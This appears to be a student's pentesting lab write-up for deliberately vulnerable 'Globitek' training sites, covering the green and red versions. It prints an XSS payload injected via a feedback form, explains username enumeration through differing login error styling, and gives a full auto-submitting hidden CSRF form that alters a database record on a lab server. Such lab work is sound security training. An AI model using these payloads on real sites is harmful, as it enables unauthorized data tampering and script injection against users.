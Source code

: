 # Pentesting
Time spent: 8 hours spent in total

Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

Username Enumeration
Insecure Direct Object Reference (IDOR)
SQL Injection (SQLi)
Cross-Site Scripting (XSS)
Cross-Site Request Forgery (CSRF)
Session Hijacking/Fixation
Each version of the site has been given two of the six vulnerabilities. 
(In other words, all six of the exploits should be assignable to one of the sites.)


# Green

Vulnerability #1: Cross-Site Scripting
![](xss_green.gif)
Attacker can inject an XSS in their feedback form.
Injected XSS Command:
<script>alert('Raj found the XSS!');</script>
This XSS runs once the account holder checks their feedback page

Vulnerability #2: Username Enumeration
![](username.gif)
As you can see from above, the Green Website has the Username Enumeration error where the failure to login message differs for the Username that exists vs doesn't exist.
The "failure" class is applied an bold style in css while "failed" class doesn't.

# Red
Vulnerability #1: Cross-Site Request Forgery (CSRF)
![](CSRF.gif)
Created a malicious page that utilizes the user's session to forge a request to the database:

<html>
<head>
<title>NOT A FAKE FORM</title>
</head>
<body onload="document.my_form.submit()">
<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=3" method="POST" name="my_form" style="display: none;" target="hidden_results" >
<input type="text" name="first_name" value="You Fool!" />
<input type="text" name="last_name" value="Sorry_Mr.Barker" />
<input type="text" name="phone" value="777-777-7778" />
<input type="text" name="email" value="TROLLED@TORLLED.COM" />
</form>
<iframe name="hidden_results" style="display: none;"></iframe>
</body>
</html>

This page secretly makes a post request on page load and hides the outcome in a hidden iframe.
 As result, an account in the database is altered.

